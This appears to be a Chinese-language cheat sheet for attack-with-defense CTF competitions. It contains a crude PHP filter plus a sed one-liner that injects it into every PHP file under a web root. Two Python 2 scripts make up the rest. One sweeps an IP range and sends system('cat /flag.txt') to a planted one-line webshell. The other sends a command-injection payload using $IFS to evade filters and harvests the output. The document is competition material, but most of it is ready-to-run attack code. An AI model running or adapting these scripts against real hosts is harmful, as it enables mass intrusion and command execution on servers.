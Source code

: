 # *waf*
```php
<?php
foreach($_REQUEST as $f){
    if(preg_match('/\S/m',$f))
    {
        die('flag{you_will_get_it}');
    }
}>
```

写在/tmp下，然后执行命令

    find /var/www/html -name "*.php"|xargs sed -i "s/<?php/<?php\nrequire('\/tmp\/waf.php');/g"

直接上awf
- tip

为什么要用require而不用include呢，首先require一定会执行并且遇到错误无法执行，include遇到错误直接跳过，其次require无论位置在哪都会首先执行，include则是遇到了才会执行，并且require是无条件包含，所以一定要用require防止包含失效被打穿

# 一句话木马脚本
`注意，以下所有脚本都是基于python2的，一定要学习Python2脚本`
`为什么要学习Python2呢，因为比赛环境kali是python2的`
`(看好是post还是get,如果是get自己修改下面命令注入的脚本)`
```python
import requests
import re
url="http://172.20."         #ip地址，如果是1.1.1.1,1.1.2.1请使用这个，然后根据网段自行修改自行修改
urll=".1/shell.php"          #如果不是index.php请自行修改为一句话木马的地址
payload={"shell":"system('cat /flag.txt');"}     #shell为一句话木马密码，请自行修改
for i in range(101,109):                   #从192.168.1.1-192.168.10.1,请根据靶机ip自行修改
    print(url+str(i)+urll)
    i=str(i)        #将i转换成字符型，不然无法拼接
    cc=url+i        #拼接
    cc=cc+urll      #拼接
    try:
        a=requests.post(url=cc,data=payload,timeout=1).text
        b=re.findall(r'[a-z0-9]{15,30}',a)      #正则匹配，表示匹配小写字母与数字组合长度为15-30位，根据flag位数自行修改，例如确定flag是20位那就直接r'[a-z0-9]{20}'
    except:
        b=''
    if len(b)>0:
        for j in b:
            f=open('1.txt','a+')    #输出至1.txt,可以自行修改
            f.write(url+i+".1 "+j+'\n')     #靶机ip第四位.1,根据情况自行修改
```
# 命令注入与文件包含通用脚本(根据漏洞自行修改)
```python
import requests
import re
url="172.20.10."
urll="/index.php?abc=127.0.0.1||cat$IFS/flag.txt"   #自行修改payload，本脚本展示get型命令注入与文件包含，看好题型如果是post自行修改
for i in range(1,10):
    i=str(i)
    try:
        a=requests.get(url=url+i+urll).text
        b=re.findall(r'flag{.*}', a)
    except:
        b=''
    if(len(b)>0):
        for j in b:
            f=open('1.txt','a+')
            f.write(url+i+" "+j+'\n')
```